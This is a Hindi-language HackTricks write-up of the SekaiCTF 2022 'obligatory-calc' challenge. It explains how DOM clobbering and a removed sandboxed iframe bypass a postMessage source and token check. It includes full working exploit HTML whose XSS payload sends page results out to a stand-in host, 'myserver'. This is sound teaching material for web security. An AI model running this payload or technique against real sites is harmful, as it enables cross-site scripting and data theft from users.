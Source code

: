 # आईफ्रेम्स के साथ SOP को बाइपास करना - 2

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* क्या आप **साइबर सुरक्षा कंपनी** में काम करते हैं? क्या आप अपनी **कंपनी का हैकट्रिक्स में विज्ञापन देखना चाहते हैं**? या क्या आपको **PEASS के नवीनतम संस्करण या हैकट्रिक्स को पीडीएफ में डाउनलोड करने का एक्सेस चाहिए**? [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) की जाँच करें!
* [**दी पीएस फैमिली**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**एनएफटीज**](https://opensea.io/collection/the-peass-family) संग्रह।
* [**आधिकारिक पीएस और हैकट्रिक्स स्वैग**](https://peass.creator-spring.com) प्राप्त करें।
* **शामिल हों** [**💬**](https://emojipedia.org/speech-balloon/) [**डिस्कॉर्ड ग्रुप**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम ग्रुप**](https://t.me/peass) और **ट्विटर** 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)** को** **फॉलो** करें।
* **अपने हैकिंग ट्रिक्स साझा करें, [हैकट्रिक्स रेपो](https://github.com/carlospolop/hacktricks) और [हैकट्रिक्स-क्लाउड रेपो](https://github.com/carlospolop/hacktricks-cloud) में पीआर जमा करके**।

</details>

## SOP-2 में आईफ्रेम्स

इस [**चुनौती**](https://github.com/project-sekai-ctf/sekaictf-2022/tree/main/web/obligatory-calc) के [**समाधान**](https://github.com/project-sekai-ctf/sekaictf-2022/tree/main/web/obligatory-calc) में, [**@Strellic\_**](https://twitter.com/Strellic\_) पिछले खंड की एक समान विधि का प्रस्ताव देते हैं। चलिए इसे जांचते हैं।

इस चुनौती में हमें अटकना है:
```javascript
if (e.source == window.calc.contentWindow && e.data.token == window.token) {
```
अगर वह ऐसा करता है, तो वह **postmessage** भेज सकता है जिसमें HTML सामग्री होगी जो **`innerHTML`** के साथ लिखी जाएगी बिना सेनिटेशन के (**XSS**).

**पहली जाँच** को छलकरने का तरीका यह है कि **`window.calc.contentWindow`** को **`undefined`** और **`e.source`** को **`null`** बनाना:

* **`window.calc.contentWindow`** वास्तव में **`document.getElementById("calc")`** है। आप **`document.getElementById`** को **`<img name=getElementById />`** के साथ लपेट सकते हैं (ध्यान दें कि Sanitizer API -[यहाँ](https://wicg.github.io/sanitizer-api/#dom-clobbering)- DOM clobbering हमलों के खिलाफ सुरक्षा उपाय को डिफ़ॉल्ट स्थिति में संरचित नहीं किया गया है)।
* इसलिए, आप **`document.getElementById("calc")`** को **`<img name=getElementById /><div id=calc></div>`** के साथ लपेट सकते हैं। फिर, **`window.calc`** **`undefined`** हो जाएगा।
* अब, हमें **`e.source`** को **`undefined`** या **`null`** होने की आवश्यकता है (क्योंकि `==` का उपयोग `===` के बजाय किया जाता है, **`null == undefined`** **`True`** है)। इसे प्राप्त करना "आसान" है। यदि आप एक **iframe** बनाते हैं और उससे **postMessage** भेजते हैं और तुरंत **remove** कर देते हैं, तो **`e.origin`** **`null`** हो जाएगा। निम्नलिखित कोड की जाँच करें
```javascript
let iframe = document.createElement('iframe');
document.body.appendChild(iframe);
window.target = window.open("http://localhost:8080/");
await new Promise(r => setTimeout(r, 2000)); // wait for page to load
iframe.contentWindow.eval(`window.parent.target.postMessage("A", "*")`);
document.body.removeChild(iframe); //e.origin === null
```
दूसरी जाँच को छलकरने के लिए **`token`** को मान `null` के साथ भेजकर और **`window.token`** को मान **`undefined`** करके:

* **`token`** को मान `null` के साथ postMessage भेजना सरल है।
* **`window.token`** **`document.cookie`** का उपयोग करने वाले **`getCookie`** फ़ंक्शन को कॉल करना है। ध्यान दें कि **`null`** मूल स्थान पृष्ठों में **`document.cookie`** तक पहुँच किसी **त्रुटि** को ट्रिगर करेगा। इससे **`window.token`** का मान **`undefined`** हो जाएगा।

[**@terjanq**](https://twitter.com/terjanq) द्वारा अंतिम समाधान [**निम्नलिखित**](https://gist.github.com/terjanq/0bc49a8ef52b0e896fca1ceb6ca6b00e#file-calc-html) है:
```html
<html>
<body>
<script>
// Abuse "expr" param to cause a HTML injection and
// clobber document.getElementById and make window.calc.contentWindow undefined
open('https://obligatory-calc.ctf.sekai.team/?expr="<form name=getElementById id=calc>"');

function start(){
var ifr = document.createElement('iframe');
// Create a sandboxed iframe, as sandboxed iframes will have origin null
// this null origin will document.cookie trigger an error and window.token will be undefined
ifr.sandbox = 'allow-scripts allow-popups';
ifr.srcdoc = `<script>(${hack})()<\/script>`

document.body.appendChild(ifr);

function hack(){
var win = open('https://obligatory-calc.ctf.sekai.team');
setTimeout(()=>{
parent.postMessage('remove', '*');
// this bypasses the check if (e.source == window.calc.contentWindow && e.data.token == window.token), because
// token=null equals to undefined and e.source will be null so null == undefined
win.postMessage({token:null, result:"<img src onerror='location=`https://myserver/?t=${escape(window.results.innerHTML)}`'>"}, '*');
},1000);
}

// this removes the iframe so e.source becomes null in postMessage event.
onmessage = e=> {if(e.data == 'remove') document.body.innerHTML = ''; }
}
setTimeout(start, 1000);
</script>
</body>
</html>
```
<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* क्या आप **साइबर सुरक्षा कंपनी** में काम करते हैं? क्या आप अपनी **कंपनी का हैकट्रिक्स में विज्ञापित करना चाहते हैं**? या क्या आप **PEASS के नवीनतम संस्करण देखना चाहते हैं या HackTricks को PDF में डाउनलोड करना चाहते हैं**? [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop) की जाँच करें!
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* [**आधिकारिक PEASS & HackTricks swag**](https://peass.creator-spring.com) प्राप्त करें
* **शामिल हों** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में या **मुझे** **Twitter** पर फॉलो करें 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **अपने हैकिंग ट्रिक्स साझा करें, [hacktricks रेपो](https://github.com/carlospolop/hacktricks) और [hacktricks-cloud रेपो](https://github.com/carlospolop/hacktricks-cloud) में PR जमा करके**।

</details>
